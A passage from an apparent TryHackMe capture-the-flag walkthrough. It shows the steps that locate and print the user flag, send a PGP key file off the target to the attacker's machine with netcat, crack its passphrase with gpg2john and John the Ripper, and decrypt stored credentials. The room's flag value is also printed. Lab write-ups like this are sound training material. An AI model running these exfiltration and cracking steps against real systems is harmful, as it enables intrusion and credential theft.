 ##
> Finding the User Flag
16. `find / -type f -name user.txt 2>/dev/null` to search for the **user.txt** file in the entire file system ("/") and display the path of any matching files while suppressing any error messages that may occur during the search
17. `cat {USER.TXT FILE PATH}` to display contents of the root.txt file on the terminal
```bash
skyfuck@ubuntu:~$ find / -type f -name user.txt 2>/dev/null
/home/merlin/user.txt
```
```bash
skyfuck@ubuntu:~$ cat /home/merlin/user.txt
THM{GhostCat_1s_so_cr4sy}
```

# Post-Exploitation
> Password Cracking
18. `pwd` to display my current location within the target's filesystem
```bash
skyfuck@ubuntu:~$ pwd
/home/skyfuck
```
19. `ls` to reveal the files that are in our current directory, which reveals two files: **credentials.pgp** and **tryhackme.asc**
```bash
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```
20. `nc -lvnp {PORT NUMBER} > tryhackme.asc` to open up a netcat lisntener on my local machine that'll listen for the tryhackme.asc file to be sent from the target machine, since the ASCII-armored (**.asc**) file most likely contains the private key that was used to encrypt the Pretty Good Privacy (**.pgp**) file
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9999 > tryhackme.asc
listening on [any] 9999 ...
```
21. `nc {MACHINE IP} {PORT NUMBER} < tryhackme.asc` to send the tryhackme.asc file onto our attacking machine in order for us to use password cracking tools, such as **gpg2john** and **john** (John the Ripper), that aren't available on the target's machine
```bash
skyfuck@ubuntu:~$ nc 10.6.54.63 9999 < tryhackme.asc
```
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9999 > tryhackme.asc
listening on [any] 9999 ...
connect to [10.6.54.63] from (UNKNOWN) [10.10.6.82] 51548
```
22. `gpg2john tryhackme.asc > {FILENAME3}.txt` to extract the hash of the password or passphrase that's used and required in order to unlock and decrypt the private key for our PGP file, from a GNU Privacy Guard (GPG) keyring file that's within the .asc file, which should contain the private key that was used to encrypt the PGP file that's in the target's directory as well as the hash that we're looking for, and then redirect the output into a text file
23. `john –wordlist={WORDLIST-PATH} {FILENAME3}.txt` to decrypt the retrieved hash back into plaintext by using John the Ripper along the rockyou.txt wordlist that I downloaded from Github (https://github.com/topics/rockyou)
24. `gpg --import tryhackme.asc` from my reverse shell to import the GPG key from the ASC file into our GPG keyring
25. `gpg --decrypt credentials.pgp` to decrypt the PGP file with the key that we imported into our GPG keyring and the password we cracked that we'll use to unlock and decrypt the private key, which will in turn decrypt our PGP file, which outputs another set of credentials for the target's system
```bash
┌──(kali㉿kali)-[~]
└─$ gpg2john tryhackme.asc > Hash.txt
```